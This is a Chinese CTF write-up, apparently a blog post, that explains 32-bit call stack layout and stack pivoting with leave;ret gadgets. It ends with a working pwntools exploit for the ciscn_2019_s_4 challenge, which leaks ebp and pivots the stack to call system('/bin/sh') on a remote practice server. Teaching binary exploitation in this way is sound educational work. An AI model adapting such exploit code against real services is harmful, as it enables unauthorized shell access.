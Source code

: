 ```yaml
---
title: "[PWN.0x00]函数调用栈结构与栈迁移"
date: 2022-03-05T20:30:31+08:00
draft: false
url: "articles/CTFpwn1"
categories: ["CTF","PWN"]
---
```


**前置知识：**[汇编语言（第4版）](https://book.douban.com/subject/35038473/)前半本

> 注：本文适用于32位程序，示意图中上为高地址区，下为低地址区。若方框中字体为蓝色表示此处内存的地址，为黑色表示此处内存存储的值。**示意图中leave均表示leave|ret**

#### 函数调用栈的基本结构

**一些寄存器的作用：**

EIP：存储着下一条指令的地址，每执行一条指令，该寄存器变化一次。

EBP：存储着当前函数栈底的地址，通过将其与偏移地址相加减获取变量的地址。

ESP：始终指向栈顶。

在进入一个函数时，会执行如下操作。

```assembly
push eip+4
push ebp
mov ebp,esp
```

在执行完退出时，会执行如下操作。

```assembly
mov esp,ebp
pop ebp

pop eip
```

即leave和ret。

整个过程描述起来就是，先将函数执行完成之后应当去执行的语句（eip+4）和主程序的的基址（ebp）压入栈中，然后再将ebp指向栈底。在函数执行完之后，再进行一遍上述过程的逆过程。

函数调用栈工作时的结构如下图：

![](1.svg)

其中val0地址处存储主程序传入的参数，如果有多个传入参数，它们将按照从右到左的顺序被push入栈中，val1~3为函数申请的局部变量。它们将按照申请的顺序被放入栈中。举例来讲，形如：

```c
void func(int a){
    int b,c;
    char s[10];
}
```

这样的函数，a将被存入val0，b将被存入val1，c将被存入val2，s将被存入val3。

考虑最基础的栈溢出题目，由于程序将按照地址从低到高的顺序存储字符串变量，所以当s的数据由选手掌控且溢出空间足够大时，s将溢出到val2，val3，甚至旧ebp，eip的位置上。所以选手就可以控制旧ebp，eip处的内容，实现劫持程序返回，让程序执行恶意代码的目的。

但有时候，选手能掌控的数据量很有限，不足以支持我们完成过于复杂的劫持指令，对于这种情况，其中一种解题方法就是栈迁移。



#### 栈迁移

栈迁移的核心思想是劫持当前函数已经压入栈中的eip段，将其内容改为一次leave，同时修改旧ebp段，借助旧ebp为跳板，实现对esp的控制，进而在下一次ret中，修改eip的值，实现目的。

也就是说，要构造栈中数据如图所示：

![2](2.svg)

至于为什么要-4，后面模拟的过程中读者自能体会。

好了，现在当前函数已经执行完了，程序将自行执行一次leave和ret。执行之后的结果如图：

![3](3.svg)

然后程序会执行eip指向的地址的命令，即再执行一次leave，ret，执行后栈的情况如图：

![4](4.svg)

这样我们就完成了借助ebp为跳板，将esp指向目标eip的位置，控制程序在最后一次ret（即pop eip）的时候，将eip赋值成了我们想让它执行的函数的地址。



#### 例题：ciscn_2019_s_4

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_4)

所谓“从零开始的Pwner生活”第一题，差点直接给我整劝退。

惯例checksec，只开了NX。

ida分析得到：

```c
int vul()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  memset(buf, 0, 0x20u);
  read(0, buf, 0x30u);
  printf("Hello, %s\n", buf);
  read(0, buf, 0x30u);
  return printf("Hello, %s\n", buf);
}
```

发现只有8个字节的溢出空间，不足以支持一次完整的ROP，但是可以读两次，且第一次读入有输出，因此可以利用第一次读入来泄露ebp（注：这里的ebp指的是vul函数的ebp，即read函数栈帧中的旧ebp）。

第一次读满0x28个字节，由于printf输出的时候会一直输出到\x00为止，所以会把ebp也一起输出来。

在第二次输入的时候构造一个栈迁移的结构，将栈迁移到我们能控制的buf段。

![5](5.svg)

结合文章开头函数调用栈的知识，不难理解，'bin/sh'和buf_addr+12都将作为输入的参数输入到system函数中，所以程序最终执行的效果就是获取了shell。

注意到我们需要填入的信息中需要我们预先知道buf的地址，可以在本地动态调试（gdb）中获取ebp和buf地址的差值，然后作差得到。**不要想当然地认为buf和ebp的差值就是0x28，这只是在read函数中的情况，此处的ebp指的是vul函数中的ebp，即read函数中ebp指向的oldebp。**

EXP：

```python
from psutil import process_iter
from pwn import *
context(arch="i386",log_level="debug")
op=0
e=ELF("ciscn-s-4.bin")
sys_addr=e.symbols['system']
leave_addr=0x080484B8
def main():
    if op==1:
        zeroy=process("ciscn-s-4.bin")
    else:
        zeroy=remote("node4.buuoj.cn",27827)
    payload1=b'a'*0x24+b"bbbb"
    zeroy.recvuntil("name?")
    zeroy.send(payload1)
    zeroy.recvuntil("bbbb")
    ebp_addr=u32(zeroy.recv(4))
    print("ebp_addr: ",hex(ebp_addr))
    buf_addr=ebp_addr-0x38
    payload2=p32(sys_addr)+b'aaaa'+p32(buf_addr+12)+b'/bin/sh\x00'
    payload2=payload2.ljust(0x28,b'a')+p32(buf_addr-4)+p32(leave_addr)
    zeroy.send(payload2)
    zeroy.interactive()
main()
```
